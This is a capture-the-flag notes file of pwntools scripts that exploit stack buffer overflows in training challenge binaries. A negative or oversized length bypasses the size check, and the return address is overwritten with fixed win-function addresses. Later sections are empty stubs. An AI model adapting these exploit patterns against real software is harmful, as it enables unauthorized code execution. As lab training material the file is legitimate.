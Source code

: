 ## 4
### .0
```py
from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('-1')

pl=b'b'*120+p64(0x40229d)

io.send(pl)
print(io.recvall().decode())

```
### .1
准确的buf相对rbp的偏移要看汇编
```s
lea     rax, [rbp+var_30]
mov     [rbp+buf], rax
# ...
mov     rax, [rbp+buf]
mov     rsi, rax
```
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)
io.sendline('-1')

pl=b'b'*(0x30+8)+p64(0x4020d3)

io.send(pl)
print(io.recvall().decode())

```
## 5
### .0
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('65536')
io.sendline('65536')

pl=b'b'*(152)+p64(0x401c4b)

io.send(pl)
print(io.recvall().decode())

```
### .1
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('65536')
io.sendline('65536')

pl=b'b'*(0x80+8)+p64(0x4020D4)

io.send(pl)
print(io.recvall().decode())

```
## 9
???怎么直接9了
### .0
```py

```
### .1
```py

```
## 10
### .0
```py

```
### .1
```py

```
## 11
### .0
```py

```
### .1
```py

```
## 12
### .0
```py

```
### .1
```py

```
## 13
### .0
```py

```
### .1
```py

```
## 14
### .0
```py

```
### .1
```py

```
## 15
### .0
```py

```
### .1
```py

```
